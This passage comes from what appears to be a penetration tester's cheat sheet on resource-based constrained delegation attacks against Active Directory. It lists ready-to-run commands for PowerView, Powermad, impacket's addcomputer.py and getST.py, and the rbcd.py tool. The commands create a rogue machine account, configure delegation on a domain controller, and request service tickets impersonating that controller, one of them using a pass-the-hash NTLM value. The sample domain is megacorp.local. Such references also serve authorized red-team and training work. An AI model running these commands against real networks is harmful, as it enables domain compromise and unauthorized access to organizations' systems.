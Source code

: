 Clean up:

```
PV3 > Get-DomainComputer DC01.megacorp.local -Verbose -Credential $cred | Set-DomainObject -Clear 'msDS-AllowedToActOnBehalfOfOtherIdentity' -Verbose -Credential $cred
Powermad > Remove-MachineAccount -MachineAccount fakemachine
```



### PowerView 4.0

Configure RBCD on the vulnerable host (DC01):

```
PV4 > Set-DomainRBCD DC01 -DelegateFrom fakemachine -Verbose
```

Clean up:

```
PV4 > Set-DomainRBCD DC01 -Clear -Verbose
```




## RBCD from Linux

Add new machine account:

```
$ addcomputer.py -computer-name 'fakemachine' -computer-pass 'Passw0rd!' -dc-ip 192.168.1.11 -dc-host DC02.megacorp.local megacorp.local/snovvcrash:'Qwe123!@#'
```

Ask TGS for LDAP:

```
$ getST.py -spn ldap/DC01.megacorp.local -impersonate 'DC01' -dc-ip 192.168.1.11 megacorp.local/fakemachine:'Passw0rd!'
```



### rbcd-attack

* [https://github.com/tothi/rbcd-attack](https://github.com/tothi/rbcd-attack)

Configure RBCD on the vulnerable host (DC01):

```
$ python3 rbcd.py -f fakemachine -t DC01 -dc-ip 192.168.1.11 megacorp.local/snovvcrash:'Passw0rd!'
$ python3 rbcd.py -f fakemachine -t DC01 -dc-ip 192.168.1.11 megacorp.local/'MEGACORP\SRV01$' -hashes :fc525c9683e8fe067095ba2ddc971889
```



### rbcd_permissions

* [https://github.com/NinjaStyle82/rbcd_permissions](https://github.com/NinjaStyle82/rbcd_permissions)
